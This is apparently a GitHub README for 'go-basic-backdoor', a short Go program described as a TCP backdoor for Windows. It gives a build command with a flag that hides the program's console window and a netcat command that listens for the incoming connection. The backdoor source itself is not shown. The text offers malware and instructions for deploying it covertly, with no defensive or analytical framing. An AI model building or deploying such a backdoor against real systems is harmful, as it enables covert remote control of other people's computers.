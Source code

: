 # go-basic-backdoor

This is a basic golang backdoor for windows over tcp in 24 line 

# Compilation

go build -ldflags -H=windowsgui backdoor.go__

# Start netcat listener and execute it

nc -L 0.0.0.0 -p 7777__
